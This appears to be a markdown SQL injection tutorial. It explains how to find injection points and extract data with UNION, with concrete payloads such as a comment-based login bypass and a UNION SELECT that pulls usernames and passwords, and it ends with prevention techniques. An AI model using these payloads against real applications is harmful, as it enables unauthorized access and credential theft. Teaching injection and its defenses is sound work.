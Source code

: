 1. **Basic SQL Injection**
     - Identifying injection points
     - Basic UNION-based SQL Injection
2. **Error-based SQL Injection**
     - Leveraging database error messages
3. **Union-based SQL Injection**
     - Using the UNION operator to extract data   
4. **Blind SQL Injection**
     - Time-based Blind SQL Injection
     - Boolean-based Blind SQL Injection
5. **Out-of-Band SQL Injection**
     - Using DNS and HTTP requests to exfiltrate data
## Basic SQL Injection

### 1. Identifying Injection Points

#### Common Injection Points
1. **User Input Fields**:
   - Login forms
   - Search fields
   - Registration forms
   - Contact forms

2. **URL Parameters**:
   - Query strings (e.g., `example.com/products?id=1`)

3. **Cookies**:
   - User information stored in cookies

4. **HTTP Headers**:
   - User-Agent, Referer, etc.

5. **API Endpoints**:
   - RESTful and SOAP API parameters

#### Techniques to Identify Injection Points

1. **Single Quote Test**:
- Enter a single quote (`'`) in input fields or URL parameters.
- If an error occurs (e.g., `SQL syntax error`), it indicates a potential injection point.
- Example:
```
Login Username: admin'
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin'';
```

2. **Comment Injection Test**:
- Use SQL comments (`--`, `#`) to bypass parts of the query.
- Example:
```
Login Username: admin' -- 
```
- SQL Query:
```sql
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'password';
```

1. **Error-Based Testing**:
- Inject known bad inputs and look for database error messages.
- Example:
```
Product ID: 1'
```
- SQL Query:
```sql
SELECT * FROM products WHERE id = 1';
```
- Possible error message:
```
SQL syntax error near '1''
```

### 2. Basic UNION-Based SQL Injection

#### Understanding the UNION Operator
- The `UNION` operator is used in SQL to combine the results of two or more SELECT statements.
- Each SELECT statement within the UNION must have the same number of columns in the result sets with similar data types.

#### Steps to Perform UNION-Based SQL Injection

1. **Determine the Number of Columns**:
- Inject a UNION SELECT statement with NULL values to identify the number of columns.
- Example:
```
Product ID: 1 UNION SELECT NULL, NULL, NULL
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT NULL, NULL, NULL;
```
- Adjust the number of `NULL` values until no error is returned.

2. **Find Data Types**:
- Replace NULL with values matching the data type of each column.
- Example:
```
Product ID: 1 UNION SELECT 1, 'string', NULL
```

1. **Extract Data**:
- Once the number of columns and their data types are known, extract data from another table.
- Example:
```
Product ID: 1 UNION SELECT username, password, NULL FROM users
```
- SQL Query:
```sql
SELECT column1, column2, column3 FROM products WHERE id = 1 UNION SELECT username, password, NULL FROM users;
```

#### Example Injection
Given a vulnerable query:
```sql
SELECT id, name, price FROM products WHERE id = '1';
```
Performing a UNION-based injection:
```
Input: 1 UNION SELECT username, password, '0' FROM users
```
Injected Query:
```sql
SELECT id, name, price FROM products WHERE id = '1' UNION SELECT username, password, '0' FROM users;
```

### Prevention Techniques
- **Parameterized Queries (Prepared Statements)**:
  - Ensures user inputs are treated as data, not executable code.
- **Stored Procedures**:
  - Encapsulate SQL code, reducing the risk of injection.
- **Input Validation**:
  - Validate and sanitize all user inputs.
- **Least Privilege**:
  - Limit database user privileges to reduce the impact of a successful injection.